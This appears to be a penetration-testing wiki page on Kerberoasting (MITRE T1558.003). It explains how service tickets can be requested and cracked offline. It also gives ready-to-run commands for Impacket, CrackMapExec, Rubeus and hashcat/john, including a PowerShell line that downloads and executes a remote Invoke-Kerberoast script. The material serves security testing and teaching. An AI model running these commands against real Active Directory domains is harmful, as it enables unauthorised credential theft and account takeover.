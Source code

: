 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1558.003
---
```


# Kerberoast

## Theory

When asking the KDC \(Key Distribution Center\) for a Service Ticket, a.k.a. TGS \(Ticket Granting Service\), the requesting user needs to send a valid TGT \(Ticket Granting Ticket\) and the SPN \(Service Principal Name\) of the service wanted. If the TGT is valid, and if the SPN exists, the KDC sends the TGS to the requesting user.

The TGS is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a SPN for a service, he can request a TGS for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a TGS for this service and attempt to crack it offline. This is Kerberoasting.

## Practice

{% hint style="warning" %}
Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold \(valid domain credentials\).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) \(Python\) can perform all the necessary steps to request a TGS for a service given its SPN and valid domain credentials.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

Another alternative is the [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit.

```bash
python3 kerberoast spnroast kerberos+pass://"domain"\\"user":"password"@"target" -u "target_user" -r "realm"
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```

This can also be achieved with Powershell. Depending on the tool that the tester will use to attempt cracking the ???, the `-OutputFormat` can be set to `hashcat` or `john`.

```bash
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoastables.txt
```
{% endtab %}
{% endtabs %}

[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try [cracking the hash](../credentials/cracking.md).

```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Targeted Kerberoasting

If an attacker controls an account with the rights to add an SPN to another \([`GenericAll`](../abusing-aces/#genericall), [`GenericWrite`](../abusing-aces/#genericwrite)\), it can be abused to make that other account vulnerable to Kerberoast \(see [exploitation](../abusing-aces/targeted-kerberoasting.md)\).

## Resources

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

{% embed url="https://adsecurity.org/?p=2011" caption="" %}


